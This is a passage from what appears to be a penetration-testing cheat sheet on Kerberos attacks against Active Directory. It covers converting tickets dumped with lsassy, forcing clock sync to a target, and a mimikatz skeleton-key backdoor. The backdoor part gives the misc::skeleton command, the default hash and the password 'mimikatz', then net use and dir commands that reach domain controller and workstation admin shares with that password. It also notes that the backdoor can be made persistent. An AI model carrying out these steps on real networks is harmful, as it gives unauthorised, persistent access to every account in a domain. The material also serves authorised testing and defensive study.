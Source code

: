 ### Convert dumped tickets

```bash
# You could also use the tickets dumped with lsassy using impacket ticketConverter:
ticketConverter.py kirbi_ticket.kirbi ccache_ticket.ccache
```

## Fix KRB\_AP\_ERR\_SKEW (Clock skew too great)

{% code overflow="wrap" %}
```bash
# ntpdate will update the time based on an NTP server
systemctl start ntp
sudo ntpdate (-s) $TARGET_IP

# If using Virtualbox, also have to stop the guest utils service or else it changed the time back about 30 seconds after we changed it.
service virtualbox-guest-utils status # maybe this specific service does not exist, status just to check
service vboxadd stop
service vboxadd-service stop
# Remember to restart them if they affect the OS in any way

# Alternative method
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#kerberos-clock-synchronization
```
{% endcode %}

## Backdoors w/ mimikatz

{% tabs %}
{% tab title="Overview" %}
Along with maintaining access using golden and silver tickets mimikatz has one other trick up its sleeves when it comes to attacking Kerberos. Unlike the golden and silver ticket attacks a Kerberos backdoor is much more subtle because it acts similar to a rootkit by implanting itself into the memory of the domain forest allowing itself access to any of the machines with a master password.&#x20;

The Kerberos backdoor works by implanting a skeleton key that abuses the way that the AS-REQ validates encrypted timestamps. A skeleton key only works using Kerberos RC4 encryption.&#x20;

The default hash for a mimikatz skeleton key is 60BA4FCADC466C7A033C178194C03DF6 which makes the password "mimikatz"

### Skeleton Key Overview

The skeleton key works by abusing the AS-REQ encrypted timestamps. The timestamp is encrypted with the users NT hash. The domain controller then tries to decrypt this timestamp with the users NT hash, once a skeleton key is implanted the domain controller tries to decrypt the timestamp using both the user NT hash and the skeleton key NT hash allowing you access to the domain forest.
{% endtab %}

{% tab title="Skeleton Key" %}
{% code overflow="wrap" %}
```bash
misc::skeleton
# ACCESING THE FOREST (default creds "mimikatz")
# The share will now be accessible without the need for Administrators password 
net use c:\\DOMAIN-CONTROLLER\admin$ /user:Administrator mimikatz
# access the directory of Desktop-1 without ever knowing what users have access
dir \\Desktop-1\c$ /user:Machine1 mimikatz
# Skeleton key will not persist by itself because it runs in the memory, it can be scripted or persisted using other tools and techniques.
```
{% endcode %}
{% endtab %}